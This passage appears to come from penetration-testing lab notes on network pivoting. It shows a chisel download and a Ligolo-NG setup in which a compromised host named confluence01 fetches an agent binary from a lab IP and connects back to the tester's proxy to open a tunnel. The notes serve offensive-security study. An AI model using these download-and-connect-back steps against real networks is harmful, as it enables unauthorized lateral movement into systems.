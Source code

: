 {% code overflow="wrap" %}
```bash
# download and prepare on Kali
$ wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
$ gunzip chisel_1.10.1_linux_amd64.gz
$ mv chisel_1.10.1_linux_amd64 chisel
$ chmod +x chisel
$ ls -la chisel
-rwxrwxrwx 1 x7331 x7331 9371800 Apr 18 10:29 chisel
# confirm it's static
$ ldd chisel
        not a dynamic executable
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Ligolo-NG

Ligolo-NG is a modern, agent-based tunneling utility for secure pivoting that establishes reverse TCP/TLS connections using a TUN interface, effectively creating a lightweight userland VPN for interactive pivoting and port forwarding — without relying on SOCKS proxies.

{% tabs %}
{% tab title="1. Proxy" %}
{% code overflow="wrap" %}
```bash
$ sudo ligolo-proxy -selfcert
...
INFO[0000] Listening on 0.0.0.0:11601
...
ligolo-ng » interface_create --name "port_forward"
INFO[0012] Creating a new "port_forward" interface...
INFO[0012] Interface created!                         
```
{% endcode %}
{% endtab %}

{% tab title="2. Agent" %}
{% code overflow="wrap" %}
```bash
$ wget http://192.168.45.236/ligolo-agent
...

2025-04-19 08:18:00 (96.7 KB/s) - ‘ligolo-agent’ saved [6543128/6543128]
$ chmod +x ligolo-agent
$ ./ligolo-agent -connect 192.168.45.235:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established             addr="192.168.45.235:11601"
```
{% endcode %}
{% endtab %}

{% tab title="3. Tunnel" %}
{% code overflow="wrap" %}
```bash
$ sudo ligolo-proxy -selfcert
...
ligolo-ng » INFO[0544] Agent joined.                                 id=243b738c-4933-4d24-b8ce-13e2cc2be5bc name=confluence@confluence01 remote="192.168.125.63:38220"
ligolo-ng » session
? Specify a session : 1 - confluence@confluence01 - 192.168.125.63:58436 - b1bee230-6aed-4130-a625-e1965670d3d9
[Agent : confluence@confluence01] » tunnel_start --tun port_forward
[Agent : confluence@confluence01] » INFO[0224] Starting tunnel to confluence@confluence01 (b1bee230-6aed-4130-a625-e1965670d3d9)
```